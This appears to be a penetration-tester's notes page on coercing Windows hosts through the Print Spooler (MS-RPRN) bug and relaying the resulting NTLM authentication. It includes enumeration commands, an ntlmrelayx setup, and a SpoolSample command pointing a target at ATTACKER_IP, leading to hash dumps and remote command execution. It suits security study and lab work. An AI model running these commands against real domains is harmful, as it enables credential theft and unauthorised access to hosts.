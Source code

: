 # Exploiting authentication relay \~ Print Spooler Service

### Resources

1. **Print System Remote Protocol** (**MS-RPRN**)

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1" %}

2. &#x20;**Print Spooler Service**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc" %}

3. **Impacket scripts**

{% embed url="https://www.kali.org/tools/impacket-scripts/" %}

4. **SpoolSample exploitation script**

{% embed url="https://github.com/leechristensen/SpoolSample" %}

A certain bug or "feature" in Microsoft Print System Remote Protocol (MS-RPRN) allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitary IP address.

> Note that the attack discussed below can be unstable, and may cause the Print Spooler service to crash, and the success of the attack varies.

To exploit this flaw, we need to meet the following requirements:

1. A valid set of AD account credentials

* To have access to machines within the AD network, to perform required tasks in the other steps

2. Network connectivity to the target's SMB service
3. The target host must be running the Print Spooler service
4. The hosts involved must not have SMB signing enforced



The sections below discusses how to explore the requirements listed above.

#### #3 The target host must be running the Print Spooler service

We can utilize a few WMI queries from another machine on the network (with network connectivity to the target host) to query the current state:

```powershell
PS> GWMI Win32_Printer -ComputerName <target>
# OR
PS> Get-PrinterPort -ComputerName <target>
```

> Note that the success of this may vary, as Microsoft has been limiting the view on these ports from the network perspective.

#### #4 The hosts involved must not have SMB signing enabled

We can use nmap to enumerate the SMB signing enforcement on our target hosts:

{% code overflow="wrap" %}
```sh
$ nmap --script=smb2-security-mode -p445 <target1> <target2>
```
{% endcode %}

Ideally, we look for the following output: "**Message signing enabled but not required"**.

### Exploitation

From Bloodhound, we may be able to find a situation where a computer (machine account) has privileges over another computer, and is running the Print Spooler service that we can exploit. This means that we can coerce the first host to authenticate to the second host.

&#x20;To which we can perform an authentication relay attack to gain access to the second host as the machine account of our original target host. If the machine account has a dangerous privilege over the other host, we can further exploit it to gain more access.

1. First, we can use ntlmrelayx.py from impacket scripts to setup the NTLM relay:

> This should be ran from the attacker machine

{% code overflow="wrap" %}
```sh
$ impacket-ntlmrelayx -smb2support -t smb://"TARGET IP" -debug
```
{% endcode %}

* `TARGET_IP` : the IP address of the second host to which we want to relay the NTLM authentication to
  * Note that we specify the IP address instead of the hostname as we want to prevent Kerberos authentication (which relies on the hostname) from happening

2. Next, we have to coerce our target with the [SpoolSample](https://github.com/leechristensen/SpoolSample) exploitation script:

```
C:\> SpoolSample.exe <target> "ATTACKER_IP"
```

* `<target>` : Hostname of the target host (to which we wish to coerce the authentication from)
* `ATTACKER_IP` : the IP address of our attacker machine from the first step



3. After performing step 3, we will now have received an authentication attempt and a relay to the second host (from the ntlmrelayx impacket script on the attacker machine), while also an automatic hashdump which may provide use with credentials to get a shell on the host.

Optionally,  we can use supply the `-c` flag to `ntlmrelayx.py` to execute a commnd on the target system (for SMB and RPC).


